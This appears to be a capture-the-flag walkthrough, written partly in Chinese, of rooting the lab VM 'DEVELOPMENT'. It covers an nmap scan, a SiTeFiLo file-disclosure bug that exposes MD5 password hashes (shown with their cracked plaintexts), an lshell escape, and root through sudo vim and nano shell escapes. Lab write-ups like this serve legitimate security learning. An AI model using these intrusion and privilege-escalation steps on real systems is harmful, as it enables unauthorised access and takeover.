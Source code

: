 ## port scan

```shell
# Nmap 7.94SVN scan initiated Sat Feb  1 06:31:59 2025 as: nmap -sT --min-rate=8899 -p- -oN nmap_result/port 192.168.28.19
Nmap scan report for 192.168.28.19 (192.168.28.19)
Host is up (0.00021s latency).
Not shown: 65530 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
113/tcp  open  ident
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
8080/tcp open  http-proxy
```

```shell
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
113/tcp  open  ident?
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
8080/tcp open  http-proxy  IIS 6.0
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Date: Sat, 01 Feb 2025 11:33:11 GMT
|     Server: IIS 6.0
|     Last-Modified: Wed, 26 Dec 2018 01:55:41 GMT
|     ETag: "230-57de32091ad69"
|     Accept-Ranges: bytes
|     Content-Length: 560
|     Vary: Accept-Encoding
|     Connection: close
|     Content-Type: text/html
|     <html>
|     <head><title>DEVELOPMENT PORTAL. NOT FOR OUTSIDERS OR HACKERS!</title>
|     </head>
|     <body>
|     <p>Welcome to the Development Page.</p>
|     <br/>
|     <p>There are many projects in this box. View some of these projects at html_pages.</p>
|     <br/>
|     <p>WARNING! We are experimenting a host-based intrusion detection system. Report all false positives to patrick@goodtech.com.sg.</p>
|     <br/>
|     <br/>
|     <br/>
|     <hr>
|     <i>Powered by IIS 6.0</i>
|     </body>
|     <!-- Searching for development secret page... where could it be? -->
|     <!-- Patrick, Head of Development-->
|     </html>
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Date: Sat, 01 Feb 2025 11:33:11 GMT
|     Server: IIS 6.0
|     Allow: POST,OPTIONS,HEAD,GET
|     Content-Length: 0
|     Connection: close
|     Content-Type: text/html
|   RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Date: Sat, 01 Feb 2025 11:33:11 GMT
|     Server: IIS 6.0
|     Content-Length: 292
|     Connection: close
|     Content-Type: text/html; charset=iso-8859-1
|     <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
|     <html><head>
|     <title>400 Bad Request</title>
|     </head><body>
|     <h1>Bad Request</h1>
|     <p>Your browser sent a request that this server could not understand.<br />
|     </p>
|     <hr>
|     <address>IIS 6.0 Server at 192.168.28.19 Port 8080</address>
|_    </body></html>
|_http-server-header: IIS 6.0
MAC Address: 00:0C:29:87:42:46 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 1 hop
Service Info: Host: DEVELOPMENT; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_smb2-security-mode: SMB: Failed to connect to host: Nsock connect failed immediately
|_smb2-time: ERROR: Script execution failed (use -d to debug)
```

## web

http://192.168.28.19:8080/development.html

![image-20250202140537601](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20250202140537601.png)

找到秘密页面

http://192.168.28.19:8080/developmentsecretpage/patrick.php?logout=1

在登录口随便输入账号密码，发现报错信息

**slogin_lib.inc.php**

![image-20250202140628094](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20250202140628094.png)

搜索发现是这个漏洞，Simple Text-File Login script (SiTeFiLo) 1.0.6 - File Disclosure 文件泄露

https://www.exploit-db.com/exploits/7444

`http://192.168.28.19:8080/developmentsecretpage/slog_users.txt`

找到账户密码

```
admin, 3cb1d13bb83ffff2defe8d1443d3a0eb
intern, 4a8a2b374f463b7aedbb44a066363b81
patrick, 87e6d56ce79af90dbe07d387d3d0579e
qiu, ee64497098d0926d198f54f6d5431f98
```

MD5解密

```
intern:12345678900987654321
patrick:P@ssw0rd25
qiu:qiu
```

## 提权

```
ssh intern@192.168.28.19
```

![image-20250202141216461](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20250202141216461.png)

绕过lshell的限制

`echo os.system('/bin/bash')`

该用户未发现提权点，尝试切换用户

```shell
intern@development:~$ su - patrick
Password: 
patrick@development:~$ sudo -l
Matching Defaults entries for patrick on development:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User patrick may run the following commands on development:
    (ALL) NOPASSWD: /usr/bin/vim
    (ALL) NOPASSWD: /bin/nano
```

vim,nano的sudo权限

```
sudo vim -c ':!/bin/bash'
```

```
sudo nano
^R^X
reset; sh 1>&0 2>&0
```

```shell
patrick@development:~$ sudo vim -c ':!/bin/bash'

root@development:~# id
uid=0(root) gid=0(root) groups=0(root)
root@development:~# cd /root
root@development:/root# ls
iptables-rules  lshell-0.9.9  proof.txt  smb.conf  tcpdumpclock.sh
root@development:/root# cat proof.txt 
Congratulations on rooting DEVELOPMENT! :)
```

